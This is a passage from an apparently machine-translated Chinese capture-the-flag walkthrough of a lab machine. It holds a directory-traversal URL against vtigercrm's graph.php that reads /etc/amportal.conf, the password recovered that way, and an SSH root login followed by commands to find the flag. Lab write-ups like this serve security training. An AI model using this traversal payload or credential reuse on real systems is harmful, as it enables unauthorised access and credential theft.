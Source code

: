 view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf&module=Accounts&action

我找到密码 **jEhdIekWmdjE**

如果你还记得从**步骤 1** 开始，nmap 扫描将**端口 22** 标记为打开，让我们在上面试试新发现的密码

## **步骤 5 -连接到 SSH**

让我们用下面的命令连接到 SSH

```
ssh root@10.10.10.7
```

我试了密码，然后就进去了！

![Screenshot-2019-09-03-at-00.13.18](img/aafb8324f680a48fec0415a9c6b537c6.png)

## 步骤 6 -查找 root.txt 标志

我现在可以寻找第一个标志， **root.txt**

![Screenshot-2019-09-03-at-00.17.19](img/133058f90d54b6ffee4ec8312b985f09.png)

我使用以下命令来检查我在这台机器上是谁

```
whoami
```

我有这台机器的超级用户权限。我得到了力量！

我使用下面的命令来检查我在机器上的位置

```
pwd
```

我在/根和通过做

```
ls
```

我找到 root.txt 文件了！为了读取文件的内容，我使用了以下命令

```
cat root.txt
```
